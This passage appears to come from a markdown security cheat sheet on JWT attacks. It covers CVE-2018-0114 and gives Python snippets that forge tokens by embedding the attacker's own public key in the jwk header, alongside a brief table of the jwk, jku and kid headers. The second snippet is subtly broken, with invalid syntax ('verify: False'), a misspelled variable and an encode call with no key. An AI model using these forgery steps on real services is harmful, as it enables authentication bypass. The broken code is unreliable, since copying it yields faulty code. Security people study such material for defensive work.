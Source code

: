 | Mitigation |
| ---------- |
|    [ Use up-to-date libraries :)](https://security.snyk.io/vuln/SNYK-PYTHON-PYJWT-40733)




---
### [ CVE-2018-0114 - JWT header parameter injections]
---


Among other things, the JWS headers often contain several other parameters. 

##### The following ones are of particular interest to attackers :

|  |  |
| --- | ---------------- |
|   jwk  | creates an embedded JSON object representing the key               |
| jku | set URL from which servers can fetch a set of keys containing the correct key|
| kid | provide an ID that servers can use to identify the correct key in cases where there are multiple keys to choose from|


---
| `jwk` JSON Web Key     |
| -------------------- |

  
   You can exploit it by signing a modified JWS using your own **RSA private key,** then **embedding the matching public key** in the `jwk` header.
#### Example

```python
# Define your payload
payload = {"sub": "1234", "name": "ladybuginthemug"}

# Load your private key
private_key = open("private_key.pem").read()

# Create a JWT token with a modified header and payload
token = jwt.encode(payload, private_key, algorithm='RS256', headers={"jwk": {"kty": "RSA", "n": "your_public_key_n", "e": "your_public_key_e"}})

print(token)

```


  You can also perform this attack manually by adding the `jwk` header yourself. However, you may also need to update the JWS's `kid` header parameter to match the `kid` of the embedded key.


```python
# Modify the header to include the 'jwk' parameter
modified_header = {"alg": "RS256", "jwk": {"kty": "RSA", "n": "your_public_key_n", "e": "your_public_key_e"},"kid": "your/kid/somewhere"}

# Decode the existing token
decoded_payload = jwt.decode(existing_token, verify: False)
deecoded_payload = decoded_payload[1]

# Create a new token with the modified header and the same payload
new_token = jwt.encode(decoded_payload, headers=modified_header, algorithm='RS256')

print(new_token)

```